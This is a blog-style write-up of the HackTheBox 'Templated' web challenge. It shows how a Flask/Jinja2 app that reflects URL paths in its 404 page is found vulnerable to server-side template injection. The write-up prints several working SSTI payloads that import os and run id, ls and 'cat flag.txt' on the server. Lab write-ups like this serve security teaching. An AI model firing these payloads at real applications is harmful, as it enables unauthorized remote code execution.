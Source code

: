 ```yaml
---
title: HackTheBox | Templated
description: Writeup of a easy-rated Web Exploitation Challenge from HackTheBox
date: 2023-06-27 12:00:00 -500
categories: [HackTheBox, Easy]
tags: [Web Exploitation, SSTI, RCE, Werkzeug, Flask, Jinja2]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/htb-templated/HTB.jpg
---
```


***

<center><strong><font color="DarkGray"><a href="https://app.hackthebox.com/challenges/templated" target="_blank"><er>Templated</er></a> is a Web Exploitation challenge from HackTheBox that revolves around exploiting a Server-Side Template Injection vulnerability in order to achieve remote code execution on the server and eventually get the flag</font></strong></center>

***

## **<strong><font color="Brown">Challenge Name</font></strong>**
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 01_12_53-Hack The Box __ Hack The Box — Mozilla Firefox.png">
<center><i>Templated Challenge</i></center>
<br/>

## **<strong><font color="Brown">Challenge Description</font></strong>**
***
* Can you exploit this simple mistake?

## **<strong><font color="Brown">Write-Up</font></strong>**
***
### **<strong><font color="DarkCyan">Enumeration:</font></strong>** 
#### **<strong><font color="MediumPurple">Front page:</font></strong>**
Navigating to the provided docker instance (``144.126.206.23:32088``), you will be presented with the following web page:
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 22_28_04-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png">
<center><i>Front page</i></center>

* The website's front page is pretty empty as it primarily consists of text without any interactive elements such as buttons, logos, or clickable features.
* However, the front page reveals the framework and templating engine being used in the backend of this application, which is `Flask/Jinja2`

#### **<strong><font color="MediumPurple">Source code:</font></strong>**
The source code of the page doesn't contain any hidden secrets, such as developer's comments or hidden directories.
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 22_32_43-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png">
<center><i>Source code</i></center>

#### **<strong><font color="MediumPurple">Server's response:</font></strong>**
Taking a look at the server's response, the `Server` HTTP header discloses the use of `Werkzeug/1.0.1` and  `Python/3.9.0` is used in conjunction with `Flask` as the backend infrastructure.
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 22_50_04-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png">
<center><i>Server Header</i></center>

#### **<strong><font color="MediumPurple">Werkzeug's console:</font></strong>**
``Werkzeug`` is a comprehensive WSGI (``Web Server Gateway Interface``) utility library for Python. It serves as a foundation for developing web applications, and is often used in conjunction with the web frameworks like `Flask` to handle the level-level aspects of web development. <br/>
``Werkzeug`` provides a development server called `Werkzeug's Debugger` that includes an interactive console known as the `interactive debugger console`. This console allows developers to execute Python code and inspect variables during the debugging process. <br/>
Long story short, if debug mode is enabled, we can access the `/console` endpoint and easily gain `RCE - Remote Code Execution` on the server running the vulnerable web application.

#### **<strong><font color="MediumPurple">Detecting the vulnerability:</font></strong>**
Unfortunately, the debug mode is disabled on the server. However, navigating to `/console` does not return a `404 - NOT FOUND` status-code, rather it returns a `200 FOUND`, which means `404` pages are probably being templated.
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 23_12_10-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png">
<center><i>Templated 404 pages</i></center>

* As you can see, the web application is reflecting the name of the directory or file we want to access, such as in this example `console`.
* This might lead to an `SSTI - Server-Side Template Injection` vulnerabilities, if user input passed via the `URL` is not properly sanitized.

### **<strong><font color="DarkCyan">Exploitation:</font></strong>** 
#### **<strong><font color="MediumPurple">Remote Code Execution:</font></strong>**
Since we know that the server is using Flask, which is a Python library, and we can leverage the `MRO - Method Resolution Order` to traverse upwards in the `request` library within **Flask**. This allows us to import the `os` library. <br/>
Once we have access to the `os` library, we can execute OS commands on the server hosting the web application.<br/>

```python
{% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}{% endraw %}
```

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 23_31_12-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png">
<center><i>id command</i></center>
<br/>
Since we already know the templating engine in use, which is `Jinja2`, we can leverage Jinja2-specific expressions like the following:

```python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}{% endraw %}
```
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 00_31_10-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png">
<center><i>id command</i></center>

* As you can see, this jinja2-specific expression uses the `os` module to execute the `id` command.

#### **<strong><font color="MediumPurple">Flag:</font></strong>**
Now that we have remote code execution on the server, we can execute the `ls` command to list the files and directories located in the current directory:

```python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}{% endraw %}
```

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 00_38_39-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png">
<center><i>ls command</i></center>

* As you can see, there is text file named `flag.txt`

Let's read the content of `flag.txt` file, by injecting the following payload:

```python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}{% endraw %}
```

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 00_40_33-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png">
<center><i>Flag</i></center>
